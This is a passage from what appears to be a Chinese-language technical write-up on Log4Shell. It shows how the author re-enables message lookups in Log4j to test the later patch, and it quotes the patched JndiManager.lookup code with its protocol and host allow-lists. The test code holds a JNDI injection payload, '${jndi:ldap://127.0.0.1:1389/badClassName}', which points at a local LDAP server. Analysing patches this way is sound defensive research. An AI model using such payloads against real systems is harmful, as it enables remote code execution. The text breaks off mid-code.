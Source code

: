 于是想办法开启`lookup`功能分析后续有没有限制

```java
final Configuration config = new DefaultConfigurationBuilder().build(true);
// 配置开启lookup功能
final MessagePatternConverter converter =
    MessagePatternConverter.newInstance(config, new String[] {"lookups"});
final Message msg = new ParameterizedMessage("${jndi:ldap://127.0.0.1:1389/badClassName}");
final LogEvent event = Log4jLogEvent.newBuilder()
    .setLoggerName("MyLogger")
    .setLevel(Level.DEBUG)
    .setMessage(msg).build();
final StringBuilder sb = new StringBuilder();
converter.format(event, sb);
System.out.println(sb);
```

成功开启`lookups`功能，调用`LookupMessagePatternConverter.fomat`方法

![img](../assets/2021-12-15-Log4jshell%E5%90%8E%E7%BB%AD/0120.png)

递归处理等过程均没有变化，最后`JndiManager.lookup`触发漏洞的地方进行了修改

```java
public synchronized <T> T lookup(final String name) throws NamingException {
    try {
        URI uri = new URI(name);
        if (uri.getScheme() != null) {
            // 允许的协议白名单
            if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                return null;
            }
            if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                // 允许的host白名单
                if (!allowedHosts.contains(uri.getHost())) {
                    LOGGER.warn("Attempt to access ldap server not in allowed list");
                    return null;
                }
                Attributes attributes = this.context.getAttributes(name);
                if (attributes != null) {
```